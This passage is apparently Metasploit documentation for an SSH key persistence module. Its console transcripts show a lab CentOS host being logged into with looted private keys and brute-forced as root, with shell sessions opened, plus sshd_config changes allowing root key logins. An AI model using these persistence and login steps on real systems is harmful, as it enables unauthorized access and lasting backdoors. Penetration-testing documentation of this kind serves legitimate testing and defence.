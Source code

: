 Verify our access works

    msf post(sshkey_persistence) > use auxiliary/scanner/ssh/ssh_login_pubkey 
    msf auxiliary(ssh_login_pubkey) > set rhosts 192.168.4.62
    rhosts => 192.168.4.62
    msf auxiliary(ssh_login_pubkey) > set key_path /root/.msf4/loot/
    key_path => /root/.msf4/loot/
    msf auxiliary(ssh_login_pubkey) > set username user
    username => user
    msf auxiliary(ssh_login_pubkey) > run
    
    [*] 192.168.4.62:22 SSH - Testing Cleartext Keys
    [*] SSH - Testing 6 keys from /root/.msf4/loot
    [+] SSH - Success: 'user:-----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA8xtiDZrE6XgkOJaatg+TvUcrEr92/GDSZUtEqO9RvvvPO1Yt
    ...snip...
    Ubz5hiBypg1/C2TMB9jH3QLKmT66Te7rfym7rOBIgIJKivs5JLZe7w==
    -----END RSA PRIVATE KEY-----
    ' 'uid=500(user) gid=500(user) groups=500(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 Linux localhost.localdomain 2.6.32-71.el6.x86_64 #1 SMP Fri May 20 03:51:51 BST 2011 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 2 opened (192.168.2.229:34721 -> 192.168.4.62:22) at 2016-06-19 15:49:34 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

### CentOS 6 (root)
The following sshd_config changes were made:

    PubkeyAuthentication yes
    AuthorizedKeysFile	.sshsecret/.authorized_keys
    PermitRootLogin yes


Get Initial Access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set username root
    username => root
    msf auxiliary(ssh_login) > set password pass
    password => pass
    msf auxiliary(ssh_login) > set rhosts 192.168.4.62
    rhosts => 192.168.4.62
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'root:pass' 'uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 Linux localhost.localdomain 2.6.32-71.el6.x86_64 #1 SMP Fri May 20 03:51:51 BST 2011 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:46420 -> 192.168.4.62:22) at 2016-06-19 15:58:32 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
